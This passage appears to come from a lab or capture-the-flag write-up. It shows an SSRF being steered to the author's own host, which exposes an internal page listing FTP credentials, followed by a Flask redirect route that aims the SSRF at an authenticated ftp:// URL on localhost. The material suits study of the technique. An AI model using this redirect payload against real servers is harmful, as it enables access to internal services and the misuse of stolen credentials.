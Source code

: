 

Now I'll pass `http://10.10.14.6/1` into the SSRF, and the resulting
page has a few clues:



    <!DOCTYPE.md>
    .md>
    <head>
        <title>Announcements</title>
    </head>
    <body>
        <link rel="stylesheet" type="text/css" href="/static/css/main.css">
        <link rel="stylesheet" type="text/css" href="/static/css/announcements.css">
        <header>
                <nav>
                    <h1 class=""><a href="/">Portal home</a></h1>
                    <h1 class="align-right margin-right"><a href="/announcements">Announcements</a></h1>
                    <h1 class="align-right"><a href="/upload">Upload image</a></h1>
                </nav>
        </header>
        <br><br><br>
        <ul>
            <li>An internal ftp server has been setup with credentials as user:heightofsecurity123!</li>
            <li>The /upload endpoint now supports ftp, ftps, http and https protocols for uploading from url.</li>
            <li>The /upload endpoint has been configured for easy scripting of uploads, and for uploading an image, one can simply pass a url with ?u=&lt;url&gt;.</li>
        </ul>
    </body>



The FTP server has creds user / heightofsecurity123!. The `/upload` url
that supports FTP and works as a GET request.

It's strange to me that the site now supports FTP, since I know it's
using `requests`, which doesn't. But I'll trust the site, and dig into
this in [Beyond Root](#web-server-config-and-requests--ftp).

### FTP

My first attempt to get to FTP was with another endpoint in Flask to
direct to it:



    @app.route("/2")
    def ftp_direct():
        return redirect('ftp://user:heightofsecurity123!@127.0.0.1')   



Unfortunately, the page returned an error:

![](/img/image-20210819211509764-16294244772732.png)
